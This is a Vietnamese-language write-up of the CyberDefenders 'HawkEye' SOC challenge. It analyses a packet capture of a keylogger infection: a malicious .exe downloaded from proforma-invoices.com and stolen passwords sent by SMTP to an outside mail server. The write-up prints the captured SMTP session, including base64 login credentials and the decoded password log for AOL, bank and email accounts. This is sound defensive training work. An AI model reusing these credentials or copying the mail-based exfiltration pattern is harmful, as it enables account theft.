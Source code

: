 ## Description 
> An accountant at your organization received an email regarding an invoice with a download link. Suspicious network traffic was observed shortly after opening the email. As a SOC analyst, investigate the network trace and analyze exfiltration attempts.
> Tạm dịch : Kế toán viên tại tổ chức của bạn đã nhận được email liên quan đến hóa đơn có liên kết tải xuống. Lưu lượng truy cập mạng đáng ngờ đã được quan sát ngay sau khi mở email. Với tư cách là nhà phân tích SOC, hãy điều tra dấu vết mạng và phân tích các nỗ lực lọc.
### Lưu ý
- Bởi vì kế toán viên đã tải xuống và chạy phần mềm độc hại trên máy nội bộ, nên địa chỉ ip của máy đã bị nhiễm mình sẽ gọi chung luôn là attacker (nó với victim là 1)
## Link challenge
> https://cyberdefenders.org/blueteam-ctf-challenges/hawkeye/
## Solution 
- Mở file với wireshark, ta sẽ phân tích sơ lược ban đầu trước 
- ![image](image/15.PNG)
- Theo đó  ta thấy rằng có tất cả `4003` packet được truyền đi trong quá trình capture, thời gian capture là `01:03:41` được tìm thấy tại mục Elapsed
- Tiếp đó thời gian bắt đầu là `2019-04-11 03:37:07` và kết thúc ở  `2019-04-11 04:40:48`, tuy nhiên điểm đặc biệt ở đây là giờ địa phương, nếu muốn ta có thể chuyển sang giờ UTC bằng cách chỉnh cửa sổ view => time => UTC.. hoặc có thể xem chi tiết trong từng packet 
- ![iaa](image/16.PNG)
- Theo đó tính theo thời gian UTC ta sẽ biết file được capture vào khoảng `Apr 10, 2019 20:37:07.129730000 UTC` đến `Apr 10, 2019 21:40:48.690963000 UTC`
- Tiếp tục kiểm tra các giao thức được sử dụng 
- ![image](image/17.PNG)
- Tìm hiểu sơ qua các giao thức 1 tí 

<details>
<summary>
Giao thức SMB 
</summary>

```
Giao thức SMB, viết tắt của Server Message Block, là giao thức giao tiếp máy chủ - máy khách (server - cilent) được sử dụng để chia sẻ quyền truy cập vào các tệp, máy in, cổng nối tiếp và các tài nguyên khác trên mạng. SMB có thể mang các giao thức giao dịch để liên lạc giữa các qua trình.

```

- ![bab](https://cloud-web-cms-beta.s3.cloud.cmctelecom.vn/smb_0c6d23f557.jpg)


### Chức năng của SMB là gì?
```
Chức năng của SMB là gì cũng được nhiều người quan tâm và tìm hiểu. Ưu điểm lớn nhất của giao thức SMB server là khả năng hỗ trợ Unicode hiệu quả. Bên cạnh đó, SMB cũng cung cấp nhiều tính năng quan trọng như:

Thông qua sử dụng giao thức SMB khác để tìm kiếm máy chủ
Xác thực các thư mục và file được chia sẻ
Cho phép in qua mạng
Các thay đổi trong thư mục và file được thông báo cho người dùng
Xử lý các thuộc tính mở rộng của file
Sắp xếp, đàm phán để tạo sự tương thích giữa các hình thái củA SMB
Khóa file đang truy cập theo yêu cầu
```
</details>

<details>

<summary>
 LLMNR (Link Local Multicast Name Resolution)
</summary>

```
một giao thức dựa trên định dạng gói Domain Name System (DNS) cho phép cả máy chủ IPv4 và IPv6 thực hiện phân giải tên cho các máy chủ trên cùng một liên kết cục bộ. Nó được bao gồm trong Windows Vista , Windows Server 2008 , Windows 7 , Windows 8 , Windows 10 . [1] Nó cũng được triển khai bởi systemd -resolved trên Linux. [2] LLMNR được định nghĩa trong RFC 4795 nhưng không được chấp nhận làm tiêu chuẩn IETF. [3]
```

</details>

- Với giao thức llmnr này ta cần check qua 1 tí 
- Filter nó ra ta thấy nó chỉ có 1 chiều là từ `10.4.10.132` và tên máy là Beijing-5cd1-PC đến 	`224.0.0.252` và từ máy có địa chỉ mac là `00:08:02:1c:47:ae `đến máy có địa chỉ mac là `01:00:5e:00:00:fc`
- ![image](image/18.PNG)
- ![ahhh](image/19.PNG)
- Tra google với cú pháp `manufacturer of mac address` ta có thể xác định được tên của Manufacturer là Hewlett Packards (mặc dù nó đã hiện bên địa chỉ mac nhưng check cho chắc 😉)
- Tiếp tục kiểm tra tiếp biết được trụ sở chính của có nằm tại Palo Alto
- ![bssb](image/20.PNG)
- Bắt đầu phân tích sâu, trước tiên ta thấy 1 vài gói tcp, chỗ này cũng không đáng quan tâm lắm 
- Kéo xuống 1 tí thấy rằng có sự tương tác giữa ip `10.4.10.4` và ip `10.4.10.132`
- ![ịaak](image/21.PNG)
- ![baba](image/22.PNG)
- Nhìn chỗ này ip `10.4.10.132` liên tục gửi request đến `10.4.10.4`, khả năng rất cao ip `10.4.10.4` ở đây là máy chủ. Còn ip `10.4.10.132`là attacker (attacker ở đây cũng chính là máy nạn nhân)
- Kiểm tra user agent (đây là vị trí chứa thông tin cá nhân của trình duyệt và thiết bị, User Agent cung cấp cho máy chủ web thông tin cụ thể về môi trường truy cập của người dùng.) bằng cách lọc các gói bằng `http.user_agent` 
```
GET /proforma/tkraw_Protected99.exe HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: proforma-invoices.com
Connection: Keep-Alive
```
- Xác định được máy tính nạn nhân là `Windows NT 6.1`

- Ở gói 204 attacker call tới miền proforma-invoices.com có ip là `217.182.138.150`

- Tại đây ta thấy attacker thực hiện 1 lệnh get tới file /proforma/tkraw_Protected99.exe khả năng cao đây là malicous, nó được lưu trữ trên sever : `LiteSpeed`

- ![sbsbs](image/24.PNG)

```
HTTP/1.1 200 OK
Last-Modified: Wed, 10 Apr 2019 04:44:31 GMT
Content-Type: application/x-msdownload
Content-Length: 2025472
Accept-Ranges: bytes
Date: Wed, 10 Apr 2019 20:37:54 GMT
Server: LiteSpeed
Connection: Keep-Alive
```

- Up lên virustotal thì thấy 1 vài thông tin 

```
md5 : 71826ba081e303866ce2a2534491a2f7
Compiler: EP:Microsoft Visual C/C++ (2013-2017) [EXE32] 
name : exedosyasi
...
```


- kéo xuống tí nữa ta thấy được attacker đăng nhập và gửi email bao gồm thông tin đăng nhập ra ngoài gửi đến ip 23.229.162.69 tra thông tin tại [https://ipinfo.io/](https://ipinfo.io/) thì thấy địa chỉ này đến từ US (Mỹ)
- Thêm nữa nó chạy trên nền của phần mềm `Exim 4.91`
```
220-p3plcpnl0413.prod.phx3.secureserver.net ESMTP Exim 4.91 #1 Wed, 10 Apr 2019 13:38:15 -0700 
220-We do not authorize the use of this system to transport unsolicited, 
220 and/or bulk e-mail.
EHLO Beijing-5cd1-PC
250-p3plcpnl0413.prod.phx3.secureserver.net Hello Beijing-5cd1-PC [173.66.146.112]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-AUTH PLAIN LOGIN
250-CHUNKING
250-STARTTLS
250-SMTPUTF8
250 HELP
AUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==
334 UGFzc3dvcmQ6
U2FsZXNAMjM=
235 Authentication succeeded
MAIL FROM:<sales.del@macwinlogistics.in>
250 OK
RCPT TO:<sales.del@macwinlogistics.in>
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
MIME-Version: 1.0
From: sales.del@macwinlogistics.in
To: sales.del@macwinlogistics.in
Date: 10 Apr 2019 20:38:08 +0000
Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=
Content-Type: text/plain; charset=utf-8
Content-Transfer-Encoding: base64

SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkNClBhc3N3b3JkcyBMb2dzDQpyb21hbi5t
Y2d1aXJlIFwgQkVJSklORy01Q0QxLVBDDQoNCj09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09PT09PT09PT09PT09PT09DQpVUkwgICAgICAgICAgICAgICA6IGh0dHBzOi8v
bG9naW4uYW9sLmNvbS9hY2NvdW50L2NoYWxsZW5nZS9wYXNzd29yZA0KV2ViIEJyb3dzZXIg
ICAgICAgOiBJbnRlcm5ldCBFeHBsb3JlciA3LjAgLSA5LjANClVzZXIgTmFtZSAgICAgICAg
IDogcm9tYW4ubWNndWlyZTkxNEBhb2wuY29tDQpQYXNzd29yZCAgICAgICAgICA6IFBAc3N3
MHJkJA0KUGFzc3dvcmQgU3RyZW5ndGggOiBWZXJ5IFN0cm9uZw0KVXNlciBOYW1lIEZpZWxk
ICAgOiANClBhc3N3b3JkIEZpZWxkICAgIDogDQpDcmVhdGVkIFRpbWUgICAgICA6IA0KTW9k
aWZpZWQgVGltZSAgICAgOiANCkZpbGVuYW1lICAgICAgICAgIDogDQo9PT09PT09PT09PT09
PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PQ0KDQo9PT09PT09PT09PT09
PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PQ0KVVJMICAgICAgICAgICAg
ICAgOiBodHRwczovL3d3dy5iYW5rb2ZhbWVyaWNhLmNvbS8NCldlYiBCcm93c2VyICAgICAg
IDogQ2hyb21lDQpVc2VyIE5hbWUgICAgICAgICA6IHJvbWFuLm1jZ3VpcmUNClBhc3N3b3Jk
ICAgICAgICAgIDogUEBzc3cwcmQkDQpQYXNzd29yZCBTdHJlbmd0aCA6IFZlcnkgU3Ryb25n
DQpVc2VyIE5hbWUgRmllbGQgICA6IG9ubGluZUlkMQ0KUGFzc3dvcmQgRmllbGQgICAgOiBw
YXNzY29kZTENCkNyZWF0ZWQgVGltZSAgICAgIDogNC8xMC8yMDE5IDI6MzU6MTcgQU0NCk1v
ZGlmaWVkIFRpbWUgICAgIDogDQpGaWxlbmFtZSAgICAgICAgICA6IEM6XFVzZXJzXHJvbWFu
Lm1jZ3VpcmVcQXBwRGF0YVxMb2NhbFxHb29nbGVcQ2hyb21lXFVzZXIgRGF0YVxEZWZhdWx0
XExvZ2luIERhdGENCj09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09DQoNCj09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09DQpOYW1lICAgICAgICAgICAgICA6IFJvbWFuIE1jR3VpcmUNCkFwcGxpY2F0
aW9uICAgICAgIDogTVMgT3V0bG9vayAyMDAyLzIwMDMvMjAwNy8yMDEwDQpFbWFpbCAgICAg
ICAgICAgICA6IHJvbWFuLm1jZ3VpcmVAcGl6emFqdWtlYm94LmNvbQ0KU2VydmVyICAgICAg
ICAgICAgOiBwb3AucGl6emFqdWtlYm94LmNvbQ0KU2VydmVyIFBvcnQgICAgICAgOiA5OTUN
ClNlY3VyZWQgICAgICAgICAgIDogTm8NClR5cGUgICAgICAgICAgICAgIDogUE9QMw0KVXNl
ciAgICAgICAgICAgICAgOiByb21hbi5tY2d1aXJlDQpQYXNzd29yZCAgICAgICAgICA6IFBA
c3N3MHJkJA0KUHJvZmlsZSAgICAgICAgICAgOiBPdXRsb29rDQpQYXNzd29yZCBTdHJlbmd0
aCA6IFZlcnkgU3Ryb25nDQpTTVRQIFNlcnZlciAgICAgICA6IHNtdHAucGl6emFqdWtlYm94
LmNvbQ0KU01UUCBTZXJ2ZXIgUG9ydCAgOiA1ODcNCj09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09PT09PT09PT09PT09PT09PT09DQoNCg==

.
250 OK id=1hEJz6-00G6e9-Af
421 p3plcpnl0413.prod.phx3.secureserver.net lost input connection

```
- email được mã hoá base64, sau khi deocde ta có dữ liệu như sau 
```
- Đây là thông tin đăng nhập 
login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==                      =[from base64]=>    sales.del@macwinlogistics.in
334 UGFzc3dvcmQ6                                                    =[from base64]=>    Password:
U2FsZXNAMjM=                                                        =[from base64]=>    Sales@23
```
- Còn đây là thông tin hacker thu thập được và gửi đi 
```
HawkEye Keylogger - Reborn v9
Passwords Logs
roman.mcguire \ BEIJING-5CD1-PC

==================================================
URL               : https://login.aol.com/account/challenge/password
Web Browser       : Internet Explorer 7.0 - 9.0
User Name         : roman.mcguire914@aol.com
Password          : P@ssw0rd$
Password Strength : Very Strong
User Name Field   : 
Password Field    : 
Created Time      : 
Modified Time     : 
Filename          : 
==================================================

==================================================
URL               : https://www.bankofamerica.com/
Web Browser       : Chrome
User Name         : roman.mcguire
Password          : P@ssw0rd$
Password Strength : Very Strong
User Name Field   : onlineId1
Password Field    : passcode1
Created Time      : 4/10/2019 2:35:17 AM
Modified Time     : 
Filename          : C:\Users\roman.mcguire\AppData\Local\Google\Chrome\User Data\Default\Login Data
==================================================

==================================================
Name              : Roman McGuire
Application       : MS Outlook 2002/2003/2007/2010
Email             : roman.mcguire@pizzajukebox.com
Server            : pop.pizzajukebox.com
Server Port       : 995
Secured           : No
Type              : POP3
User              : roman.mcguire
Password          : P@ssw0rd$
Profile           : Outlook
Password Strength : Very Strong
SMTP Server       : smtp.pizzajukebox.com
SMTP Server Port  : 587
==================================================
```
- Sau khi decode thấy rằng hacker đã dựa trên malware `HawkEye Keylogger ` là biến thể của phần mềm `Reborn v9`
<details>
<summary>
HawkEye Keylogger
</summary>

```
Phần mềm độc hại HawkEye có khả năng đánh cắp thông tin từ các thiết bị bị ảnh hưởng, nó hoạt động như một trình tải và phần mềm độc hại cũng tìm nạp phần mềm độc hại khác vào thiết bị.
Email spam dường như có nguồn gốc từ ngân hàng Tây Ban Nha mang một zip chứa tệp .lnk (hình ảnh giả mạo), khi hình ảnh được mở, phần mềm độc hại sẽ được kích hoạt và tận dụng PowerShell để thiết lập kết nối với máy chủ C2 của kẻ tấn công và thả thêm tải trọng.
```
![image](https://1.bp.blogspot.com/-BMjierHG6A0/XOxjTomRjTI/AAAAAAAABSk/uSQyuWGrYHgZQVSKca71L6bz0Y8vaa9EACLcBGAs/s1600/hawkeye_1.jpg)

### Chức Năng Của Phần Mềm Độc Hại HawkEye
```
- Ăn cắp mật khẩu email
- Ăn cắp mật khẩu trình duyệt web
- Keylogging và chụp ảnh màn hình
- Trộm ví bitcoin
- Ăn cắp trình quản lý tải xuống Internet
- Ăn cắp mật khẩu JDownloader
- Kiểm tra chống vi-rút
- Kiểm tra tường lửa
```
</details>

- So sánh giữa 2 lần gửi email, thấy rằng cứ sau mỗi 10 phút hacker sẽ gửi email 1 lần
- ![image](image/25.PNG)